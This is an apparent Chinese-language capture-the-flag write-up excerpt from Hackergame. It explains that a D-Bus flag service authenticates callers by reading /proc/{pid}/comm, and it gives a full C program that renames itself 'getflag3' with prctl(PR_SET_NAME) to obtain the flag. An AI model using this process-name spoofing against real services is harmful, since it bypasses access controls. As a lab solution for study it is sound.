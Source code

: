 对于flag3，flagserver通过`GetConnectionUnixProcessID`获取程序PID，然后读取`/proc/{pid}/comm`获取调用者进程名，进程名需要为`getflag3`。但是上传到判题平台上的进程都会被放到`/dev/shm/executable`，就按hackergame这习性说不定还是个read-only。搜索一番后，发现可以使用`prctl`修改进程名称，其`PR_SET_NAME`选项可以让我们修改的进程名显示在`/proc/{pid}/comm`里。

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <gio/gio.h>
#include <sys/prctl.h>

int main() {
    // 设置进程名称为 "getflag3"
    if (prctl(PR_SET_NAME, "getflag3", 0, 0, 0) == -1) {
        perror("prctl PR_SET_NAME failed");
        return 1;
    }

    // dbus
    GError *error = NULL;
    GDBusConnection *connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
    if (!connection) {
        g_printerr("Failed to get system bus: %s\n", error->message);
        g_clear_error(&error);
        return 1;
    }

    // getflag3
    GVariant *result = g_dbus_connection_call_sync(
        connection,                                
        "cn.edu.ustc.lug.hack.FlagService",        
        "/cn/edu/ustc/lug/hack/FlagService",       
        "cn.edu.ustc.lug.hack.FlagService",        
        "GetFlag3",                                
        NULL,                                      
        G_VARIANT_TYPE("(s)"),                     
        G_DBUS_CALL_FLAGS_NONE,                    
        -1,                                        
        NULL,                                      
        &error                                     
    );

    if (error) {
        g_printerr("Failed to call GetFlag3: %s\n", error->message);
        g_clear_error(&error);
        g_object_unref(connection);
        return 1;
    }

    // 获取返回的 flag3 值
    const gchar *flag3;
    g_variant_get(result, "(&s)", &flag3);
    g_print("flag3: %s\n", flag3);

    // 清理
    g_variant_unref(result);
    g_object_unref(connection);

    return 0;
}
```
